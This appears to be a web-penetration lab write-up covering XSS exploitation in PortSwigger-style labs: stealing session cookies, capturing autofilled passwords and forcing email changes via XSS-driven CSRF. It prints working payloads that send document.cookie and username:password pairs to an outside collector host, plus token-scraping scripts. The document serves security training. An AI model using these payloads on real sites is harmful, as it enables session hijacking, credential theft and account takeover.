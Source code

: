 ### Exploiting cross-site scripting vulnerabilities

To demonstrate XSS vulnerability, a common method is to create a popup using the `alert()` function. This isn't because XSS is related to popups; it's a way to show that you can run arbitrary JavaScript on a specific domain. Some may use `alert(document.domain)` to clarify the executing domain.

Sometimes, it's necessary to go beyond proof and provide a complete exploit to illustrate the severity of an XSS vulnerability. In this section, we'll delve into three widely used and potent methods to exploit an XSS vulnerability.

### Exploiting cross-site scripting to steal cookies

Exploiting XSS to steal cookies is a traditional method. Since many web apps use cookies for session management, an attacker can use XSS to send the victim's cookies to their domain and impersonate the victim by injecting these cookies into the browser.

However, this approach has limitations:

- The victim may not be logged in.
- Some apps protect cookies using the `HttpOnly` flag, making them inaccessible to JavaScript.
- Additional security measures, like locking sessions to the user's IP address, can thwart attacks.
- The session may expire before the attacker can hijack it.

## Steal Cookies Scripts

1. One-Liner
   
   ```html
   <script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
   ```

2. `<img>` Tag Instead of `<script>` Tags
   
   ```js
   <img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
   ```

3. `<img>` Tag and Without the Infinite Loop
   
   ```html
   <img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
   ```

4. Using fetch
   
   ```html
   <script>
   fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
   method: 'POST',
   mode: 'no-cors',
   body:document.cookie
   });
   </script>
   ```

#### EX: Exploiting cross-site scripting to steal cookies

First, test with this `<img src="1" onerror="alert()">` to know where the payload stored or if there are any changes on it

![Screenshot from 2023-09-20 05-31-56](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/2708edd9-bf68-4ff7-b914-f85f66388646)
And It's work then let's try to steal any cookie with this vulnerability in this lab we will use burp collaborator

![Screenshot from 2023-09-20 05-32-06](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa21d0e5-841f-43b9-9e61-a76647c58936)
And past the burp collaborator url in this script

```js
<img src=x onerror=this.src='http://burp-collaborator-url/?'+document.cookie;>
```

![Screenshot from 2023-09-20 05-42-00](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/4be6ef6d-3eca-414a-b914-d7616539ed2b)
And post it 

![Screenshot from 2023-09-20 05-42-40](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/6a713b19-f1e2-49c6-8bd0-8e983472029a)
we got an session cookie of somone then let's copy it

![Screenshot from 2023-09-20 05-44-07](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/df63f3e9-4bdd-493c-bcc6-85f2aa1ba32b)
Capture any page request and change his session with session that we stealed it 

![Screenshot from 2023-09-20 05-46-58](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/97aa6ebc-9314-4b78-8241-8e564441b5b5)
Intercept off

![Screenshot from 2023-09-20 05-47-17](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c997b61e-a3dc-468a-a62e-4c3e517790ba)
And lab solved

![Screenshot from 2023-09-20 05-47-26](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/a886cd1d-4d50-4baa-a039-4a4bfb632821)
we can access admin panel with this cookie

![Screenshot from 2023-09-20 05-49-43](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/1e0c3dfb-bd92-423f-92cb-0cbf85455383)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Exploiting_cross_site_scripting_to_steal_cookies.py)

### Exploiting cross-site scripting to capture passwords

Today, with password managers auto-filling, you can create a password input, extract the auto-filled password, and send it to your domain. This method mitigates cookie theft issues and can access other accounts with reused passwords.

The main drawback is that it relies on users having a password manager with auto-fill. If a user doesn't have a saved password, you could resort to on-site phishing, but it's not as effective.

#### EX: Exploiting cross-site scripting to capture passwords

First, test with this `<img src="1" onerror="alert()">` to know where the payload stored or if there are any changes on it

![Screenshot from 20230920 053156](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/2708edd9-bf68-4ff7-b914-f85f66388646) And It's work then let's try to steal any cookie with this vulnerability in this lab we will use burp collaborator

![Screenshot from 20230920 053206](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa21d0e5-841f-43b9-9e61-a76647c58936) And past the burp collaborator url in this script

```html
<input type=text name=username id="username" placeholder="user name">
<input type=password name=password placeholder="password" onchange="if(this.value.length)fetch('https:/burp-collaborator-url',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value}
);">
```

![Screenshot from 2023-09-20 09-37-41](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/989c214e-a305-4bdb-9adc-36526197a883)

And post it

![Screenshot from 2023-09-20 07-18-46](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/81b27e01-afca-4701-82a1-1cc4efcec0e5)
we got an username and passworf of admin then let's login with it

![Screenshot from 2023-09-20 07-19-52](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/999d5de1-94be-4c5a-a4ca-fc93ded2872c)
Done

![Screenshot from 2023-09-20 07-20-46](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/bc34a9c7-e1e6-4856-a1f6-a7259a9d2cfd)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Exploiting_cross_site_scripting_to_capture_passwords.py)

### Exploiting cross-site scripting to perform CSRF

Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site you're targeting, you might be able to make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin. 

With XSS, you can exploit sites that let users change email addresses without password confirmation. Exploiting this, you can alter the victim's email to yours and then initiate a password reset, gaining access to the account.

This exploit is often called CSRF, though it can exist independently. Standalone CSRF can be mitigated with anti-CSRF tokens, but these won't safeguard against XSS vulnerabilities simultaneously.

#### EX: Exploiting XSS to perform CSRF

After login there are page and in this page you can change your emal wihtout password

then let's change our email and capture this request

![Screenshot from 2023-08-14 11-35-17](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/a1e0d142-9da1-41c9-a6ed-d33a1c209b87)

create csrf payload with burp

![Screenshot from 2023-09-20 09-53-45](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/1c97cd63-d5db-43a7-b368-2a012ca0cc3f)
and test it in browser to see if this page vuln with csrf

![Screenshot from 2023-09-20 09-54-06](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/5cd8ef95-3012-417d-beee-e93d00af23ff)
Our emal changed then it's vuln with csrf but there are a csrf tooken then we need xss to perform this vulnerability

![Screenshot from 2023-09-20 09-54-19](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa5c8835-346c-4208-9e5a-3287dbbf3c44)

and there are another page vuln with xss

![Screenshot from 2023-09-20 09-57-13](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/7e52246b-ccca-4c53-b23d-c8fdf0ecc9be)
![Screenshot from 2023-09-20 09-57-27](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/b9923e87-0ab1-45c6-9247-5e5b694e74c2)

Then lets create payload with this into we can create two palyoads:

First payload:

```html
<script>
fetch('/my-account')
  .then(r => r.text())
  .then(t => t.match(/name="csrf" value="(\w+)"/))
  .then(m => m && fetch('/my-account/change-email', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: `csrf=${m[1]}&email=test@test.com` }))
  .then(r => r.ok ? console.log('Email changed successfully.') : console.error('Email change failed with status ' + r.status))
  .catch(e => console.error('Error:', e));
</script>
```

Second payload:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

![Screenshot from 2023-09-20 11-35-59](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/236a06ce-7095-4b6e-9538-8a87cdb052db)![Screenshot from 2023-09-20 11-18-43](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/ef43fa16-6cbf-4d55-89ef-84e747cd30f3)
It's work

![Screenshot from 2023-09-20 11-18-51](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/f884f9ee-21eb-4067-91ac-c703023ef1b5)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Exploiting_XSS_to_perform_CSRF.py)
